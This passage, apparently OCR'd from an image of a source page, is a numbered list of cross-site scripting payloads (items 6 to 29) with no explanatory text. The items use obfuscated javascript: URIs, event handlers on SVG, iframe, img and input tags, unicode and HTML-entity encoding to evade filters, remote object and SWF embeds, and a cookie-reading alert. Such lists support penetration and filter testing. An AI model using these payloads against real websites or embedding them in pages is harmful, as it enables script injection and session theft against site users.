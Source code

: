 6) <object data="http://corkami.googlecode.com/svn/!svn/bc/480/trunk/misc/pdf/helloworld_js_X.pdf">​
 
7) <var onmouseover="prompt(1)">On Mouse Over</var>​
 
8) <a href=javascript&colon;alert&lpar;document&period;cookie&rpar;>Click Here</a>
 
9) <img src="/" =_=" title="onerror='prompt(1)'">
 
10) <%
 
11) <script src="data:text/javascript,alert(1)"></script>
 
12) <iframe/src \/\/onload = prompt(1)
 
13) <iframe/onreadystatechange=alert(1)
 
14) <svg/onload=alert(1)
 
15) <input value=<><iframe/src=javascript:confirm(1)
 
16) <input type="text" value=``<div/onmouseover='alert(1)'>X</div>
 
17) http://www.<script>alert(1)</script .com
 
 
18) <iframe  src=j&NewLine;&Tab;a&NewLine;&Tab;&Tab;v&NewLine;&Tab;&Tab;&Tab;a&NewLine;&Tab;&Tab;&Tab;&Tab;s&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;c&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;i&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;p&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&colon;a&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;l&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;e&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;r&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;t&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%28&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;1&NewLine;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;&Tab;%29></iframe> ​
 
19) <svg><script ?>alert(1)
 
20) <iframe  src=j&Tab;a&Tab;v&Tab;a&Tab;s&Tab;c&Tab;r&Tab;i&Tab;p&Tab;t&Tab;:a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;%28&Tab;1&Tab;%29></iframe>
 
21) <img src=`xx:xx`onerror=alert(1)>
 
22) <object type="text/x-scriptlet" data="http://jsfiddle.net/XLE63/ "></object>
 
23) <meta http-equiv="refresh" content="0;javascript&colon;alert(1)"/>​
 
24) <math><a xlink:href="//jsfiddle.net/t846h/">click
 
25) <embed code="http://businessinfo.co.uk/labs/xss/xss.swf" allowscriptaccess=always>​
 
26) <svg contentScriptType=text/vbs><script>MsgBox+1
 
27) <a href="data:text/html;base64_,<svg/onload=\u0061&#x6C;&#101%72t(1)>">X</a
 
28) <iframe/onreadystatechange=\u0061\u006C\u0065\u0072\u0074('\u0061') worksinIE>
 
29) <script>~'\u0061' ;  \u0074\u0068\u0072\u006F\u0077 ~ \u0074\u0068\u0069\u0073.  \u0061\u006C\u0065\u0072\u0074(~'\u0061')</script U+
 